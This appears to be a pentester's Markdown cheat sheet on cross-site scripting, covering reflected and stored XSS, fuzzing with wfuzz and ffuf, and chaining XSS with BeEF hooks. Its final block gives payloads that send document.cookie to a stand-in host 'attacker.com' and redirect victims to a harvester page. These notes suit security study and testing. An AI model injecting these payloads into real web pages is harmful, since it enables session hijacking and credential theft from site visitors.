 # Cross Site Scripting

## Things to remember
  *  PayloadsAllTheThings contains tons of [XSS payloads and filter bypass techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
  *  Descriptions summarized from [OWASP XSS page](https://owasp.org/www-community/attacks/xss/)
  *  Reflected XSS coerces the victim browser to send the payload to the server
      *  The server "reflects" the payload back to the browser
      *  e.g. Specially crafted links, redirects, etc.
  *  Stored XSS involves storing the payload on the server
      *  Affects any user that visits the page containing the payload

## Useful tools
  *  [`wfuzz`](https://www.kali.org/tools/wfuzz/) and [`ffuf`](https://github.com/ffuf/ffuf) for manually fuzzing web app inputs for command injection
  *  [`seclists`](https://github.com/danielmiessler/SecLists) for some command injection fuzzing lists
  *  [`BeEF`](https://beefproject.com/) for hooking/controlling/exploiting browsers

## Fuzzing for XSS
  *  `wfuzz` and `ffuf` for XSS fuzzing
      *  Fuzz more than just parameters! Cookies, headers, etc.
  *  Carefully parse HTTP POST requests before using `wfuzz`
      *  Be specific with things like cookies, headers, URL structure, etc.
      *  Failing to provide these values can produce ineffective requests
  *  `ffuf` can parse requests from text files
      *  Easier handling of more complex POST requests
      *  No recursive grep, consider `Burp Intruder` in these cases
  *  Plenty of XSS wordlists available in `seclists`

```
wfuzz -w /path/to/xss.txt -b 'exampleCookie=cookieValue' 'http://10.0.0.1/xss?param=FUZZ'
wfuzz -w /path/to/xss.txt -H 'exampleHeader: headerValue' -d 'param=FUZZ' 'http://10.0.0.1/xss'
```

```
ffuf -request req.txt --request-proto http -w /path/to/xss.txt -v
```

## Exploiting XSS
  *  Implant `BeEF` hooks to leverage XSS into browser control
  *  Consider chaining XSS into various client-side attacks
      *  Browser exploit, harvester implant/redirect, drive-by download, etc.
  *  Consider chaining XSS into session hijack by stealing cookies/tokens
      *  PayloadsAllTheThings has a list of [payloads for cookie/token theft](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#data-grabber-for-xss)

```
<img src="http://attacker.com/" />
<script>new Image().src="http://attacker.com/"+document.cookie;</script>
<script>window.location.href="http://attacker.com/harvester";</script>
```
